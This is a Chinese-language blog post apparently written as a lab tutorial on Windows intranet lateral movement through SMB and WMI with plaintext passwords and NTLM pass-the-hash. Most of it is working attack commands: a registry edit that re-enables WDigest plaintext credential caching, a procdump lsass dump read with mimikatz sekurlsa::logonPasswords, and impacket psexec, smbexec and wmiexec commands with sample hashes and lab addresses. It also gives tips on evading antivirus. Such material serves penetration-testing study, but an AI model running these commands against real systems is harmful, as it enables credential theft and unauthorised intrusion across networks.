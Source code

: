 ```yaml
---
layout: post
title: "内网渗透-smb&wmi明文&hash传递"
date: "2023-01-06T14:14:43.173Z"
---
```

内网渗透-smb&wmi明文&hash传递
=====================

首先我们要知道，在windows2012以上版本默认会关闭wdigest，那么攻击者就无法从内存中获取明文密码了

windows2012以下的版本如果安装了KB2871997补丁，那么同样也会导致无法从内存中获取明文密码

windows系统LM Hash以及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在winserver2003之后，认证方式均为NTLM Hash

针对以上的情况，有四种方式可以解决：

1、利用哈希传递（pth，ptk等）进行移动

2、利用其他的服务协议（smb，wmi等）进行哈希移动

3、利用注册表操作开启Wdigest Auth值进行获取

reg add
HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f

4、利用工具或者第三方平台（hashcat）进行破解获取

（1）Procdump+Mimikatz 配合获取

因为Procdump是微软官方的一个程序，所以不会被杀软给识别，那么就可以使用procdump备份密码然后到本地使用minikatz进行读取

Procdump上执行：procdump -accepteula -ma lsass.exe lsass.dmp

mimikatz 上执行： sekurlsa::minidump lsass.dmp

　　　　　　　　  sekurlsa::logonPasswords full

 如果拿到了hash值，那么就可以使用hashcat去破解

（2）域横向移动SMB服务利用-psexec，smbexec（官方自带）

利用SMB服务可以通过明文或者hash传递来远程执行，条件是445服务端口开放

1）psexec的使用

1.先建立IPC回话，然后使用SMB服务

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106201652523-1256473322.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106201757980-1398161473.png)

 2.直接使用明文连接不需要IPC连接

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202005320-1960398768.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202023428-1152560980.png)

 （3）如果没有明文密码，但是拿到了密码的hash值，也可以通过pstool进行连接，但是需要使用的是impacket中的psexec，因为是第三方开发的工具，所以可能会被杀软识别，因此只能看情况去使用

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202552952-82039936.png)

 2）smbexec的使用

smbexec无需建立ipc的连接，可以使用明文或者hash的传递，但是smbexec是第三方软件同样需要先做免杀才可以，以下是一些使用方法的示例

smbexec god/administrator:Admin12345@192.168.3.21　　连接god域中的administrator用户

smbexec ./administrator:admin!@#45@192.168.3.32　　　 连接本地的administrator用户

hash方法的话需要在minikatz中找到对应用户的密码hash值的NTLM或者LM值，具体使用哪个得看操作系统的版本。

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106203913331-576896792.png)

 然后在使用以下的命令

smbexec -hashes :$HASH$ ./admin@192.168.3.21

smbbexec -hashes :$HASH$ domain/admin@192.168.3.21

smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32

smbexec -hashes :ccef208c6485269c20db2cad21734fe7god/administrator@192.168.3.21

（3）域横向移动 WMI 服务利用-cscript,wmiexec,wmic

WMI(Windows Management Instrumentation) 是通过 135 端口进行利用，支持用户名明文或者 hash 的方式进行认证，并且该方法不会在目标日志系统留下痕迹。

自带WMIC　　只能进行明文传递　　无回显

wmic /node:192.168.3.21 /user:administrator /password:Admin12345 process call create "cmd.exe /c ipconfig >C:\\1.txt"

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205009189-196008115.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205023015-1817583004.png)

自带 cscript 　　只能进行明文传递 　　有回显　　但是需要借助一个叫做wmiexec.vbs的文件进行操作![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205202287-1794763031.png)

cscript //nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205227167-1600059684.png)

套件 impacket wmiexec 明文或 hash 传递 有回显 exe 版本

wmiexec ./administrator:admin!@#45@192.168.3.32 "whoami"　　本地主机账户

wmiexec god/administrator:Admin12345@192.168.3.21 "whoami"　　域账户

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205352100-1485594123.png)

wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "whoami"　　本地主机账户

wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"　　域主机账户

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205444975-293601675.png)

 所以综上所述：

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205812720-2112335278.png)